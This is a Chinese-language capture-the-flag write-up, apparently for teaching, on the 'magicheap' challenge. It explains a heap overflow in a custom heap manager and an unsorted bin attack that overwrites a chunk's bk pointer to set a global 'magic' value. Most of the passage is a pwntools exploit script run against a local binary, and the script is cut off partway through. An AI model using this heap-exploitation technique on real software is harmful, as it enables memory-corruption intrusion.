 可以看出，该程序是一个动态链接的64程序，主要开启了 NX 保护与 Canary 保护。

### 基本功能

程序大概就是自己写的堆管理器，主要有以下功能

1. 创建堆。根据用户指定大小申请相应堆，并且读入指定长度的内容，但是并没有设置 NULL。
2. 编辑堆。根据指定的索引判断对应堆是不是非空，如果非空，就根据用户读入的大小，来修改堆的内容，这里其实就出现了任意长度堆溢出的漏洞。
3. 删除堆。根据指定的索引判断对应堆是不是非空，如果非空，就将对应堆释放并置为 NULL。

同时，我们看到，当我们控制 v3 为 4869，同时控制 magic 大于 4869，就可以得到 flag 了。

### 利用

很显然， 我们直接利用 unsorted bin attack 即可。

1. 释放一个堆块到 unsorted bin 中。
2. 利用堆溢出漏洞修改 unsorted bin 中对应堆块的 bk 指针为 &magic-16。
3. 触发漏洞即可。

代码如下

```Python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./magicheap')


def create_heap(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit_heap(idx, size, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


create_heap(0x20, "dada")  # 0
create_heap(0x80, "dada")  # 1
# in order not to merge into top chunk
create_heap(0x20, "dada")  # 2

del_heap(1)

magic = 0x6020c0
fd = 0
```